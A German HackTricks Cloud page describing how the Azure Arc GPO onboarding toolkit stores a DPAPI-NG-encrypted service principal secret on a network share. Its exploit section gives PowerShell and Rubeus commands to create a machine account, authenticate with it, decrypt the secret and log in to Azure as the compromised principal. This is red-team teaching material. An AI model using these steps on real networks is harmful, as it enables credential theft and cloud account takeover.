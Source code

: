 # Az - Arc verwundbares GPO Bereitstellungsskript

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

### Identifizierung der Probleme

Azure Arc ermöglicht die Integration neuer interner Server (verbundene Domänenserver) in Azure Arc mithilfe der Group Policy Object-Methode. Um dies zu erleichtern, stellt Microsoft ein Bereitstellungstoolkit zur Verfügung, das für den Start des Onboarding-Verfahrens erforderlich ist. Im ArcEnableServerGroupPolicy.zip-Datei finden sich die folgenden Skripte: DeployGPO.ps1, EnableAzureArc.ps1 und AzureArcDeployment.psm1.

Beim Ausführen des DeployGPO.ps1-Skripts werden die folgenden Aktionen ausgeführt:

1. Erstellt die Azure Arc Servers Onboarding GPO innerhalb der lokalen Domäne.
2. Kopiert das EnableAzureArc.ps1 Onboarding-Skript in den vorgesehenen Netzwerkfreigabe, die für den Onboarding-Prozess erstellt wurde und auch das Windows-Installationspaket enthält.

Beim Ausführen dieses Skripts müssen Systemadministratoren zwei Hauptparameter angeben: **ServicePrincipalId** und **ServicePrincipalClientSecret**. Darüber hinaus sind weitere Parameter wie die Domäne, der FQDN des Servers, der die Freigabe hostet, und der Freigabename erforderlich. Weitere Details wie die Mandanten-ID, die Ressourcengruppe und andere notwendige Informationen müssen ebenfalls dem Skript bereitgestellt werden.

Ein verschlüsseltes Geheimnis wird im AzureArcDeploy-Verzeichnis auf der angegebenen Freigabe unter Verwendung der DPAPI-NG-Verschlüsselung generiert. Das verschlüsselte Geheimnis wird in einer Datei mit dem Namen encryptedServicePrincipalSecret gespeichert. Beweise dafür finden sich im DeployGPO.ps1-Skript, wo die Verschlüsselung durch den Aufruf von ProtectBase64 mit $descriptor und $ServicePrincipalSecret als Eingaben erfolgt. Der Descriptor besteht aus den SID der Domain Computer und der Domain Controller-Gruppe, wodurch sichergestellt wird, dass das ServicePrincipalSecret nur von den Sicherheitsgruppen der Domain Controller und Domain Computer entschlüsselt werden kann, wie in den Kommentaren des Skripts vermerkt.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Wir haben die folgenden Bedingungen:

1. Wir haben erfolgreich das interne Netzwerk durchdrungen.
2. Wir haben die Fähigkeit, ein Computer-Konto innerhalb von Active Directory zu erstellen oder die Kontrolle darüber zu übernehmen.
3. Wir haben einen Netzwerkfreigabe entdeckt, die das AzureArcDeploy-Verzeichnis enthält.

Es gibt mehrere Methoden, um ein Maschinenkonto in einer AD-Umgebung zu erhalten. Eine der häufigsten ist die Ausnutzung des Maschinenkonto-Quotas. Eine andere Methode besteht darin, ein Maschinenkonto durch verwundbare ACLs oder verschiedene andere Fehlkonfigurationen zu kompromittieren.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Sobald ein Maschinenkonto erlangt wurde, ist es möglich, sich mit diesem Konto zu authentifizieren. Wir können entweder den Befehl runas.exe mit dem netonly-Flag verwenden oder Pass-the-Ticket mit Rubeus.exe nutzen.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Durch das Speichern des TGT für unser Computer-Konto im Speicher können wir das folgende Skript verwenden, um das Geheimnis des Dienstprinzipals zu entschlüsseln.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativ können wir [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) verwenden.

An diesem Punkt können wir die verbleibenden Informationen sammeln, die benötigt werden, um eine Verbindung zu Azure herzustellen, aus der ArcInfo.json-Datei, die im selben Netzwerkfreigabe wie die Datei encryptedServicePrincipalSecret gespeichert ist. Diese Datei enthält Details wie: TenantId, servicePrincipalClientId, ResourceGroup und mehr. Mit diesen Informationen können wir Azure CLI verwenden, um uns als der kompromittierte Dienstprinzipal zu authentifizieren.

## Referenzen

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
